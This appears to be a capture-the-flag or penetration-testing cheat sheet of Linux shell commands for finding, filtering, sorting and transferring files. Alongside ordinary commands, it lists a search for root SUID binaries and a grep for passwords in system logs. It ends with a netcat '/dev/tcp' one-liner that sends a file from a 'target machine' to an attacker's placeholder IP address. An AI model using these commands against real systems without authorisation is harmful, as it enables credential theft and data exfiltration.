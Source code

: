 # Files
## File Type
### Print the file type of all files in a folder:
```bash
file */{.,}*
```		
## Filtering Files
### Name
```bash
find / -name "<name>" 2>/dev/null
```
#### Ex. Flags
```bash
find / -name "*flag*" 2>/dev/null
```
### Owned by Root w/ the SUID Bit Set
```bash
find / -perm -4000 -user root -type f 2>/dev/null
```
```bash
find / -perm -u=s -type f 2>/dev/null
```
### Group
```bash
find / -group <GROUP> 2>/dev/null
```
### Finding the string password in log files
```bash
grep -R -e 'password' /var/log/ 2>/dev/null
```
### ASCII Text
```bash
file */{.,}* | grep ASCII
```
### Size
```bash
du -b -a | grep 1033
```
### Non-Executable
```bash
find . ! -executable
```
### ASCII Text, Size, and Non-Executable
```bash
find . -type f -size 1033c ! -executable -exec file '{}' \; | grep ASCII
```
- -size 1033 to look for the file-size requirement.
- -type f to only look at files.
- -exec file '{}' \;, to execute the file command and get the file data type. After that, we simply need to filter the output for the file type ‘ASCII’ again.  

## Searching in a File
### Unique Lines: 
```bash
sort <file> |  uniq -u
```
- To filter by unique lines the lines need to be sorted
### Duplicate Lines
```bash
uniq -d
```
### Count Lines:
```bash
uniq -c
```
## Sorting a File
```bash
sort <file>
```
### In Reverse 
```bash
sort -r <file>
```
### Numerically
```bash
sort -n <file>
```
Sort: sort <file>
Sort (in reverse): sort -r <file>
Sort (numerically): sort -n <file>
## Serving a File
### Python Method
Creating the File Server:
```bash
sudo python -m http.server 80
```
Downloading the File:
```bash
wget http://IP_ADDRESS:80/FILE
```
```bash
curl http://IP_ADDRESS:80/filename -o filename
```
### Netcat Method
Attacking Machine:
```bash
nc -lvnp PORT > FILE
```
Target Machine:
```bash
cat FILE > /dev/tcp/IP_ADDRESS/PORT
```
